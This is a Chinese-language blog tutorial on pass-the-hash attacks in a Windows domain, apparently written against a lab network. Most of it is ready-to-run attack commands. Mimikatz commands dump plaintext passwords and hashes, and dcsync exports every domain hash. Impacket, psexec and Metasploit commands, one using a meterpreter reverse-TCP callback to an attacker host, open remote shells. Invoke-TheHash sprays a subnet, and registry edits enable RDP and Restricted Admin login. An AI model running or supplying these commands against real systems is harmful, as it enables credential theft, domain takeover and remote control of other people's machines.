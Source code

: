 ```yaml
---
layout:     post
title:      内网渗透之Hash传递攻击
subtitle:   内网渗透之Hash传递攻击
date:       2021-01-29
author:     木已成舟
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 内网渗透
---
```


## 0x00 PTH原理

PTH即pass-the-hash，原理是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不需要提供明文密码。在Windows系统中，通常会使用NTLM身份认证，NTLM是口令加密后的hash值。PTH是基于smb服务（445端口）。

利用场景：内网环境中存在大量密码一样的主机，当我们获得了一台的hash后，可以通过该hash进行横向渗透。



## 0x01 工具

### 通过mimikatz进行PTH

要抓取hash，需要先提权到本地管理权限，不然会报以下错误。

![20210129103322](../../../../img/20210129103322.png)

mimikatz（使用管理员权限打开）抓取明文密码和hash命令：

```
#交互式
privilege::debug
sekurlsa::logonpasswords
#非交互式
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

下图是抓取到的域管理员的明文密码和hash。

![20210129103511](../../../../img/20210129103511.png)

使用mimikatz进行PTH攻击命令：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:SHQAX /ntlm:161cff084477fe596a5db81874498a24"
```

下图是命令执行成功的效果图。

![20210129103821](../../../../img/20210129103821.png)

同时它会打开一个新的CMD窗口，该窗口有访问域控的权限。

![20210129103944](../../../../img/20210129103944.png)



#### 导出域内hash

当你通过Mimikatz进行PTH后，在Mimikatz创建的新窗口中执行以下命令可以导出域内所有hash。

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:shqax.com /all /csv"
```



#### 使用psexec执行命令

当你通过Mimikatz进行PTH后，在Mimikatz创建的新窗口中执行以下命令可以执行远程命令。

`PsExec.exe \\10.10.1.128 -s cmd.exe`

![20210129104332](../../../../img/20210129104332.png)



### 使用impacket进行PTH

impacket工具集下载：https://github.com/maaaaz/impacket-examples-windows

使用impacket工具集中的wmiexec执行系统命令：

```
wmiexec.exe -hashes :161cff084477fe596a5db81874498a24 shqax/administrator@10.10.1.128 "ipconfig"
```

![20210129104557](../../../../img/20210129104557.png)

使用impacket工具集中smbexec进行反弹shell：

```
smbexec.exe -hashes :161cff084477fe596a5db81874498a24 shqax/administrator@10.10.1.128
```

![20210129104637](../../../../img/20210129104637.png)



### 使用CS进行PTH

使用CS里的mimikatz先dump下密码和hash。

![20210129104758](../../../../img/20210129104758.png)

在凭证中可以看到。

![20210129104826](../../../../img/20210129104826.png)

对内网进行探测后，选择一台主机，进行PTH，此时需要选择一个smb协议的Listener。

![20210129104905](../../../../img/20210129104905.png)

回连成功。

![20210129104939](../../../../img/20210129104939.png)

### 使用MSF进行PTH

选择Msf的`auxiliary/admin/smb/psexec_command`模块：

```
use auxiliary/admin/smb/psexec_command
set rhosts 10.10.1.128
set smbdomain shqax
set smbuser administrator
set smbpass <LM:NTLM>
set command ipconfig
run
```

一开始set sbmpass只设置了NTLM hash，导致下图的登陆失败。

![20210129105337](../../../../img/20210129105337.png)

![20210129105440](../../../../img/20210129105440.png)



msf反弹shell模块：

```
use exploit/windows/smb/psexec_psh
set rhost 10.10.1.128
set smbdomain shqax
set smbuser administrator
set smbpass <LM:NTLM>
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.1.131
set lport 4444
exploit -j -z
```



![20210129105547](../../../../img/20210129105547.png)



### 通过powershell进行批量PTH

powershell脚本：https://github.com/Kevin-Robertson/Invoke-TheHash

```
#本地加载powershell脚本：
powershell -exec bypass
Import-Module .\Invoke-WMIExec.ps1
Import-Module .\Invoke-TheHash.ps1

#利用已有管理员hash，批量指定网段机器(域环境下)
Invoke-TheHash -Type WMIExec -Target 10.10.1.0/24 -Domain shqax -Username administrator -Hash 161cff084477fe596a5db81874498a24

#利用已有管理员hash，批量指定网段机器(工作组环境下)
Invoke-TheHash -Type WMIExec -Target 10.10.1.0/24 -Username administrator -Hash 161cff084477fe596a5db81874498a24
```

![20210129105647](../../../../img/20210129105647.png)





## 0x02 Remote Desktop

Restricted Admin mode，直译为受限管理模式，它使用当前Windows登录凭据，不需要输入口令，直接登录。当然需要两端都支持Restricted Admin mode，即Server需要开启Restricted Admin mode，Client也需要支持Restricted Admin mode。

Restricted Admin mode适用于：

- Windows 8.1和Windows Server 2012 R2默认支持该功能
- Windows 7和Windows Server 2008 R2默认不支持，需要安装补丁2871997、2973351



查看远程桌面是否打开（0表示开启，1表示关闭）：

```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

注册表开启3389端口：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

查看3389端口号：

```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber


```



开启Restricted Admin mode的方法

1. 方法1: 安装补丁3126593
2. 修改注册表（测试没成功）

```
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

测试的时候，发现只能用交互模式。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:SHQAX /ntlm:161cff084477fe596a5db81874498a24 "/run:mstsc.exe /restrictedadmin"
```

查看是否支持Restricted Admin mode的命令。

`mstsc.exe /restrictedadmin`

下图是本地不支持Restricted Admin mode的提示：

![20210129110432](../../../../img/20210129110432.png)



下图是远程桌面不支持Restricted Admin mode的提示：

![20210129110459](../../../../img/20210129110459.png)



## 0x03 参考链接

https://blog.csdn.net/lhh134/article/details/104475026

